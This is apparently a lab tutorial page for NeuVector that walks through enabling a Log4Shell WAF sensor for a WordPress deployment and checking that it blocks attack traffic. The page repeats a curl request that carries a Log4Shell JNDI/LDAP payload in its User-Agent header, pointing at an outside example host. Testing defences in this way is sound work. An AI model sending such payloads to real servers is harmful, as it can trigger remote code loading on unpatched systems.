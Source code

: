 +++
title = "Create and test WAF rule"
weight = 24
+++

NeuVector's deep packet inspection also allow to scan and filter incoming and outgoing traffic with WAF (Web Application Firewall) and DLP (Data Loss Prevention) sensors.

Go to **Policy > WAF Sensors** to see the already pre-configured sensors. Here you can also activate your own. You can find more information at [DLP & WAF Sensors](https://open-docs.neuvector.com/policy/dlp).

In this step, we will test the `log4shell` sensor.

The following request contains a Log4Shell exploit:

```ctr:kubernetes01
curl -X POST -H "Content-Type: application/json" \
  -H "User-Agent: \${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" \
  -d 'foo=bar' \
  http://wordpress.${vminfo:Kubernetes01:public_ip}.sslip.io
```

Without a configured WAF sensor, the request will work.

Next, create a WAF rule:

* Go to **Policy > Groups** and choose the `nv.wordpress.wordpress` group.
* Go to the **WAF** tab
* Click on the edit button
* Choose the Log4Shell WAF sensor
* Click apply
* Set the WAF status toggle to **Enabled**

If you execute the same request now:

```ctr:kubernetes01
curl -X POST -H "Content-Type: application/json" \
  -H "User-Agent: \${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" \
  -d 'foo=bar' \
  http://wordpress.${vminfo:Kubernetes01:public_ip}.sslip.io
```

the request will be blocked. NeuVector will also alert you at **Notifications > Security Events**.
